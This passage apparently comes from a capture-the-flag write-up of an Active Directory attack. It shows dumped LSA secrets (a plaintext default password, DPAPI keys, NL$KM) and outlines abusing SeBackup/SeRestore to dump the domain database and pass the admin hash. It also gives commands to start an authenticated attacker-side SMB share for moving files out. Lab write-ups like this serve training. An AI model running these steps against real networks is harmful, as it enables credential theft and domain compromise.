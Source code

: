 ```
[*] DefaultPassword 
(Unknown User):###_ADM1N_3920_###
[*] DefaultPassword_history 
(Unknown User):###_ADM1N_3920_###
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd4834e39bca0e657235935730c045b1b9934f690
dpapi_userkey:0x9fa187c3b866f3a77c651559633e2e120bc8ef6f
[*] DPAPI_SYSTEM_history 
dpapi_machinekey:0x553a70257d1025de04b9964ee112970167bb05ce
dpapi_userkey:0x042e800b8ae479cf828c0a7afe7b3d1300832319
[*] NL$KM 
 0000   88 01 B2 05 DB 70 7A 0F  EF 52 DF 06 96 76 4C A4   .....pz..R...vL.
 0010   BD 6E 62 D1 06 63 1A 7E  31 2F A2 6D F8 6C 42 50   .nb..c.~1/.m.lBP
 0020   FC 8D 5C A4 FC 46 1B DC  7E CA 7E 76 7F 5E C2 74   ..\..F..~.~v.^.t
 0030   CF EB B6 1F 99 8A 29 CF  2C D1 1D 55 C6 01 2E 6F   ......).,..U...o
NL$KM:8801b205db707a0fef52df0696764ca4bd6e62d106631a7e312fa26df86c4250fc8d5ca4fc461bdc7eca7e767f5ec274cfebb61f998a29cf2cd11d55c6012e6f
[*] NL$KM_history 
 0000   88 01 B2 05 DB 70 7A 0F  EF 52 DF 06 96 76 4C A4   .....pz..R...vL.
 0010   BD 6E 62 D1 06 63 1A 7E  31 2F A2 6D F8 6C 42 50   .nb..c.~1/.m.lBP
 0020   FC 8D 5C A4 FC 46 1B DC  7E CA 7E 76 7F 5E C2 74   ..\..F..~.~v.^.t
 0030   CF EB B6 1F 99 8A 29 CF  2C D1 1D 55 C6 01 2E 6F   ......).,..U...o
NL$KM_history:8801b205db707a0fef52df0696764ca4bd6e62d106631a7e312fa26df86c4250fc8d5ca4fc461bdc7eca7e767f5ec274cfebb61f998a29cf2cd11d55c6012e6f
[*] Cleaning up...
```
❌

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

So we need to get into the Administrator context. On way to do this is to abuse `SeBackup` and
`SeRestore` privileges in order to dump the AD database. Then, we can use the administrator
NTLM hash in a PtH (Pass the Hash) attack to get a shell as them. First we need to install and
configure a samba server with authentication.

`mkdir ./smbshare`

`impacket-smbserver -user 'smbuser' -password 'smbpass' -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed

[...]
```

![Victim: svc_backup](https://custom-icon-badges.demolab.com/badge/Victim-svc%5F_backup-64b5f6?logo=windows11&logoColor=white)
